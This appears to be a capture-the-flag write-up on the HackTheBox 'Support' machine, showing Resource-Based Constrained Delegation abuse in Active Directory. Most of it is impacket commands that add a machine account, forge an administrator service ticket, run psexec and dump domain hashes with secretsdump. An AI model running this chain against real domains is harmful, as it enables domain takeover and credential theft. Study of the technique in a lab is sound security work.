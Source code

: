 ------------

### AD attacks-:

------------

### Abuse Resource-Based Constrained Delegation to Gain Unauthorized Access

--------------

- In Resource-Based Constrained Delegation (RBCD), we configure the target resource e.g. a database or file server to specify which service accounts are permitted to access it on behalf of users. For example, a database service can be set up to allow specific services, like a web service, to act on behalf of users through assigned security permissions.
- This differs from unconstrained and constrained delegation. With unconstrained delegation, service accounts with delegation enabled can access any resource on behalf of users. Similarly, with constrained delegation, service accounts with delegation enabled can access a specific list of resources.
- Requirement-:

```
BCD is configured by setting the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
This attribute specifies which service accounts or systems are permitted to act on behalf of users to access the target resource.
-To exploit this type of delegation, an attacker must gain access to an account with Write permissions on the targeted resource (computer object), such as GenericAll, GenericWrite, and WriteDACL.
```

- User `SUPPORT@SUPPORT.HTB` which the user I owned before is a member of a group called `SHARED SUPPORT ACCOUNTS@SUPPORT.HTB`. The group itself have full control to a computer called DC.SUPPORT.HTB, so in other words user SUPPORT have full control to DC.SUPPORT.HTB including write permission.
  
![image](https://github.com/user-attachments/assets/4b44f38a-49c4-45fb-b68f-ddf8a3f1442b)

- Exploiting with rbcd tool
- Impacket tool `[AddCOmputer]`Syntax to add a computer-:

```bash
addcomputer.py -computer-name 'password' -computer-pass 'password' -dc-ip [ip] '[domain]/[username]:[password]'
```

![image](https://github.com/user-attachments/assets/bc19a1ba-5325-444a-9a0d-803f1128bcf9)

- Then, we use the RBCD python script to add our new computer to the msds-allowedtoactonbehalfofotheridentity attribute list.[RBCD tool](https://github.com/AlteredSecurity/RBCD.git)

![image](https://github.com/user-attachments/assets/e916c933-d028-4a30-9580-1de27fdd9790)

- Syntax-:

```
python3 rbcd.py 10.10.11.174 -u [domain]\\[user] -p '[password]' -t DC -f [newly created computer]
```
![image](https://github.com/user-attachments/assets/4d39f81b-92fa-4ae4-9e0a-f6b6ab2757d9)

- Now, we have what it needs to request a service ticket; we will use the getST.py script from impacket instead of Rubeus to request the service ticket as administrator.

```bash
python3 getST.py -spn cifs/[object with unconstrained delegation over] -impersonate [user] -dc-ip [ip] '[domain]/[user]:[password]'
```

![image](https://github.com/user-attachments/assets/253b6ac4-0518-46c5-afc0-bdf8f9d90c10)

![image](https://github.com/user-attachments/assets/a4cb3279-56f8-4360-b567-7a5336a1a96c)

- When the ticket is issued, we can use by setting it to variable `KRB5CCNAME` for `impacket-psexec`.

Syntax-:

```bash
KRB5CCNAME=[ccache file name [endswith .ccache] impacket-psexec [domain]/[user]@[object] -k -no-pass
```

![image](https://github.com/user-attachments/assets/68bf410e-228d-4ade-9698-4afec915d1fb)

- Dumping the hashes with impacket-secretsdump-:
 - You can set the `KRB5CCNAME` as an environmental variable
   ```bash
   export KRB5CCNAME=$(pwd)/administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
   ```
  
- Syntax-:

```bash
impacket-secretsdump -k -target-ip [ip] [domain name]
```
![image](https://github.com/user-attachments/assets/bed765e7-218d-4e65-9afc-e0f156620534)

- Pass the hash with Evil-winrm -:

![image](https://github.com/user-attachments/assets/0f8af80b-c32a-4782-a63d-0f76e1e93cf7)

------------------------

### Reference

-----------------------

- [Unconstrained Resource Delegation](https://medium.com/r3d-buck3t/how-to-abuse-resource-based-constrained-delegation-to-gain-unauthorized-access-36ac8337dd5a)






